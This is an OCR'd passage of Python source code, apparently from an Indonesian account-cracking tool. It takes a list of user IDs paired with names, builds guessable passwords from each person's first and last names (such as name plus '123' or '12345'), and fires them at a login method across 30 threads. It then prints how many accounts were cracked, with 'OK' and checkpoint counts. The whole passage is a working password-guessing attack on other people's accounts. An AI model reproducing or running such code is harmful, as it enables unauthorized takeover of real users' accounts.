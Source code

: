 			with ThreadPoolExecutor(max_workers=30) as fall:

				self.simpan_hasil()

				for data in tampung:

					try:

						pwx = []

						user = data.split("<=>")[0]

						nama = data.split("<=>")[1]

						depan = nama.split(" ")[0]

						if len(nama)<=5:

							if len(depan)<3:

								pass 

							else:

								pwx.append(depan+"123")

								pwx.append(depan+"12345")

						else:

							if len(depan)<3:

								pwx.append(nama)

							else:

								pwx.append(nama)

								pwx.append(depan+"123")

								pwx.append(depan+"12345")

							belakang = nama.split(" ")[1]

							if len(belakang)<3:

								pwx.append(depan+belakang)

							else:

								pwx.append(depan+belakang)

								pwx.append(belakang+"123")

								pwx.append(belakang+"12345")

						fall.submit(self.metode_api,user,pwx)

					except:

						fall.submit(self.metode_api,user,pwx)

		prints(Panel(f"""{P2}berhasil crack total {len(tampung)} id, dengan hasil OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}""",width=80,padding=(0,8),style=f"{color_panel}"))
